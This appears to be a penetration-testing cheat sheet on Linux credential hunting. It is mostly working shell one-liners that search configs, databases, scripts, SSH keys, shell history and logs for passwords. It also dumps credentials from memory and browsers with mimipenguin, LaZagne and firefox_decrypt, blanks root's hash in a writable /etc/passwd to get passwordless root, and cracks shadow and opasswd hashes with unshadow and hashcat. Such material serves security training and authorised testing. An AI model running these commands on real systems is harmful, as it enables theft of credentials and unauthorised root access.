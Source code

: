 ## delete


# Credential Hunting in Linux
| Files     | History               | Memory                | Key-Rings                  |
|-----------|-----------------------|-----------------------|----------------------------|
| Configs   | Logs                  | Cache                 | Browser stored credentials |
| Databases | Command-line History  | In-memory Processing  |                            |
| Notes     |                       |                       |                            |
| Scripts   |                       |                       |                            |
| Source codes |                    |                       |                            |
| Cronjobs  |                       |                       |                            |
| SSH Keys  |                       |                       |                            |

## Files
Configuration files 	Databases 	Notes
Scripts 	Cronjobs 	SSH keys

### Configuration Files
```bash
$ for l in $(echo ".conf .config .cfg .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#### Credentials in Configuration Files
```bash
$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

We can apply this simple search to the other file extensions as well. Additionally, we can apply this search type to databases stored in files with different file extensions, and we can then read those.

### Databases
```bash
$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Notes
```bash
$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts
```bash
$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### Cronjobs
```bash
$ cat /etc/crontab
$ ls -la /etc/cron.*/
```

### SSH Keys
### SSH Private Keys
```bash
$ grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

### SSH Public Keys
```bash
$ grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"`
```

### History
#### Bash History
```bash
$ tail -n5 /home/*/.bash*
```

### Logs
Application Logs 	Event Logs 	Service Logs 	System Logs

Log File                | Description
----------------------- | ------------------------------------------------
/var/log/messages       | Generic system activity logs.
/var/log/syslog         | Generic system activity logs.
/var/log/auth.log       | (Debian) All authentication related logs.
/var/log/secure         | (RedHat/CentOS) All authentication related logs.
/var/log/boot.log      | Booting information.
/var/log/dmesg          | Hardware and drivers related information and logs.
/var/log/kern.log       | Kernel related warnings, errors and logs.
/var/log/faillog        | Failed login attempts.
/var/log/cron           | Information related to cron jobs.
/var/log/mail.log       | All mail server related logs.
/var/log/httpd          | All Apache related logs.
/var/log/mysqld.log     | All MySQL server related logs.


```bash
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory and Cache
### [Mimipenguin](https://github.com/huntergregal/mimipenguin)
this tool requires administrator/root permissions.
```bash
$ sudo python3 mimipenguin.py
$ sudo bash mimipenguin.sh`
```

### [LaZagne](https://github.com/AlessandroZ/LaZagne)
```bash
$ sudo python2.7 laZagne.py all
```

## Browsers
### Firefox Stored Credentials
```bash
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

### (Decrypting Firefox Credentials)[https://github.com/unode/firefox_decrypt]
```bash
$ python3.9 firefox_decrypt.py`
```

### Browsers - LaZagne
```bash
$ python3 laZagne.py browsers`
```

# Passwd, Shadow & Opasswd
## Passwd File
Usually, we find the value x in this field, which means that the passwords are stored in an encrypted form in the /etc/shadow file. However, it can also be that the /etc/passwd file is writeable by mistake. This would allow us to clear this field for the user root so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as root.

### Editing /etc/passwd - Before
root:x:0:0:root:/root:/bin/bash

### Editing /etc/passwd - After
root::0:0:root:/root:/bin/bash

Even though the cases shown will rarely occur, we should still pay attention and watch for security gaps because there are applications that require us to set specific permissions for entire folders. If the administrator has little experience with Linux or the applications and their dependencies, the administrator may give write permissions to the /etc directory and forget to correct them.

## Opasswd
The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.

```
$ sudo cat /etc/security/opasswd
```

Looking at the contents of this file, we can see that it contains several entries for the user cry0l1t3, separated by a comma (,). Another critical point to pay attention to is the hashing type that has been used. This is because the MD5 ($1$) algorithm is much easier to crack than SHA-512. This is especially important for identifying old passwords and maybe even their pattern because they are often used across several services or applications. We increase the probability of guessing the correct password many times over based on its pattern.

## Cracking Linux Credentials
### Unshadow
```
$ sudo cp /etc/passwd /tmp/passwd.bak 
$ sudo cp /etc/shadow /tmp/shadow.bak 
$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

### Hashcat - Cracking Unshadowed Hashes
```
$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Hashcat - Cracking MD5 Hashes
```
$ hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```